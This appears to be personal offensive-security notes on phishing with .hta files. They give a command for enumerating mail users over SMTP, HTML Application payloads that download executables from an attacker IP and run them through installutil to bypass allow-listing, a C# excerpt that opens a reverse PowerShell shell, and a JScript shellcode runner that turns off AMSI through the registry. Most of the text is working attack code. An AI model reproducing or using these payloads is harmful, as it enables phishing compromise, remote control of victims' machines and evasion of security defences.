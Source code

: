 ## Phishing via .hta files

- if Office does not appear to be working for you, can try sending an email with a malicious .hta file link.

### Enumerating email users

Try using smtp-user-enum with the Seclists's names.txt
For the mode, use telnet to connect and try VRFY, EXPN and RCPT to see which works

```bash
smtp-user-enum -M RCPT -U /usr/share/wordlists/seclists/Usernames/Names/names.txt -D tricky.com -t 192.168.174.159
```

### PowerShell Download Exe + InstalUtil to run Powershell
- if IEX is blocked, then no gucci. but can try putting the entire nishang (obfuscated) powershell rev shell straight into bypass.exe (see example below)

```html
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var res = shell.Run("powershell wget http://192.168.45.196/bypass.exe -o C:\\Windows\\tasks\\bypass.exe;C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\installutil.exe /logfile= /LogToConsole=false /U C:\\Windows\\tasks\\bypass.exe");
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>

```
Except from bypass.exe with nishang
```csharp
String cmd2 = "$cli = New-Object Net.Sockets.TCPClient('192.168.45.196', 443);$NStream = $cli.GetStream();<snip>....";
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();

            PowerShell ps = PowerShell.Create();
            ps.Runspace = rs;
            ps.AddScript(cmd1);
```

if the above doesnt work try
```
var ress = shell.Run("powershell.exe wget http://172.21.23.10/inj_runner.exe -o C:\\users\\public\\runner.exe; C:\\users\\public\\runner.exe");
```

### jscript shellcode runner from .hta
- slam your shellcode inside the .hta with AMSI bypass
```js
<html>
<head>
<script language="JScript">
var sh = new ActiveXObject('WScript.Shell');
var key = "HKCU\\Software\\Microsoft\\Windows Script\\Settings\\A" +"msi"+"Enable";

try{
	var AEnable = sh.RegRead(key);
	if(AEnable!=0){
	throw new Error(1, '');
	}
}catch(e){
	sh.RegWrite(key, 0, "REG_DWORD");
	sh.Run("cscript -e:{F414C262-6AC0-11CF-B6D1-00AA00BBBB58} "+WScript.ScriptFullName,0,1); 
	sh.RegWrite(key, 1, "REG_DWORD");
	WScript.Quit(1);
}
function setversion() {
new ActiveXObject('WScript.Shell').Environment('Process')('COMPLUS_Version') = 'v4.0.30319';
}
function debug(s) {}
function base64ToStream(b) {
	var enc = new ActiveXObject("System.Text.ASCIIEncoding");
	var length = enc.GetByteCount_2(b);
	var ba = enc.GetBytes_4(b);
	var transform = new ActiveXObject("System.Security.Cryptography.FromBase64Transform");
	ba = transform.TransformFinalBlock(ba, 0, length);
	var ms = new ActiveXObject("System.IO.MemoryStream");
	ms.Write(ba, 0, (length / 4) * 3);
	ms.Position = 0;
	return ms;
}

var serialized_obj =< put the dotnet2js shellcode here>

var entry_class = 'TestClass';

try {
	setversion();
	var stm = base64ToStream(serialized_obj);
	var fmt = new ActiveXObject('System.Runtime.Serialization.Formatters.Binary.BinaryFormatter');
	var al = new ActiveXObject('System.Collections.ArrayList');
	var d = fmt.Deserialize_2(stm);
	al.Add(undefined);
	var o = d.DynamicInvoke(al.ToArray()).CreateInstance(entry_class);
	
} catch (e) {
    debug(e.message);
}
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```
if it does not work then host this as a .js file on your apache server and have your .hta download the .js and execute via Wscript